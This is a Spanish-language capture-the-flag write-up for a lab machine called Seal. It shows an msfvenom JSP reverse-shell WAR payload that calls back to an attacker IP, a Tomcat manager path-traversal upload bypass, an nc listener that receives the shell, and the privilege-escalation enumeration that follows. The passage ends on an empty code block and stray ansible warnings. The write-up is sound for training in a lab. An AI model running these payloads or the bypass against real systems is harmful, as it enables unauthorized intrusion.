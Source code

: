 ```bash
# msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.7 lport=443 -f war > setenso.war                                                                                                                35 ⨯ 1 ⚙
Payload size: 1083 bytes
Final size of war file: 1083 bytes
```
Una vez tenemos el archivo creado, vamos a intentar subirlo. Nos vamos a donde pone `WAR file to deploy` y procedemos a intentar subir el archivo
```bash
https://10.10.10.250/manager/html/upload;jsessionid=30996A6436CBB5E16EE0296121D0CCA8?org.apache.catalina.filters.CSRF_NONCE=B68A395DF24E8D8C6E14811F6E50C638
403 FORBIDDEN
```
Vale vemos que tenemos un problema porque la url como veiamos no nos funciona correctamente `/manager/html/upload` en esta seccion. Nos abrimos burpsuite para cambiar esta parte
a `manager/status/..;/html/upload` y subir el archivo correctamente.
```bash
POST /manager/status/..;/html/upload;jsessionid=30996A6436CBB5E16EE0296121D0CCA8?org.apache.catalina.filters.CSRF_NONCE=B68A395DF24E8D8C6E14811F6E50C638 HTTP/1.1
```
Lo conseguimos subir correctamente. Procedo a ponerme una session con `nc -vlnp 443` a la escucha para recibir la conexion entrante.
```bash
# nc -vlnp 443                                                                                                                                                                                               2 ⚙
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.250] 56870
whoami
tomcat
```
Procedemos a realizar el tratamiento de la shell como siempre.
Procedemos a enumerar el sistema en busca de la flag.
```bash
tomcat@seal:/home/luis$ cat user.txt 
cat: user.txt: Permission denied
```
Vemos que tenemos que saltar del user tomcat al user Luis.
```bash
tomcat@seal:/home/luis$ find / -group luis -type f 2>/dev/null
/opt/backups/archives/backup-2021-11-14-10:56:33.gz
/opt/backups/archives/backup-2021-11-14-10:55:33.gz
/opt/backups/playbook/run.ym
```
Enumerando encontramos en la ruta `/opt/backups/` archivos que pertenecen al user Luis, se pone interesante.
vemos que parece que hay una tarea CRON ejecutando cada cierto tiempo backups en el directorio de antes. 
Por eso mismo y para confirmarlo subimos el `pspy32s` para verficar si efectivamente tenemos una tarea Cron ejecutandose.
```bash
2021/11/14 11:01:01 CMD: UID=0    PID=16861  | /usr/sbin/CRON -f 
2021/11/14 11:01:01 CMD: UID=0    PID=16862  | /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml 
2021/11/14 11:01:01 CMD: UID=0    PID=16863  | sleep 30 
2021/11/14 11:01:31 CMD: UID=0    PID=16876  | sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
```
Procedemos a investigar esos ficheros de backups
```bash
file backup-2021-11-14-11\:05\:32.gz 
backup-2021-11-14-11:05:32.gz: gzip compressed data, was "backup-2021-11-14-11:05:32", last modified: Sun Nov 14 11:05:33 2021, max compression, original size modulo 2^32 1617920
```
Procedemos a apuntar al script que se ejecuta para realizar las tareas de Backups
```bash
```

[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'                                                                                         
[WARNING]: Consider using the file module with mode rather than running 'chmod'.  If you need to use command because file is insufficient you can add 'warn: false' to this command task or set                     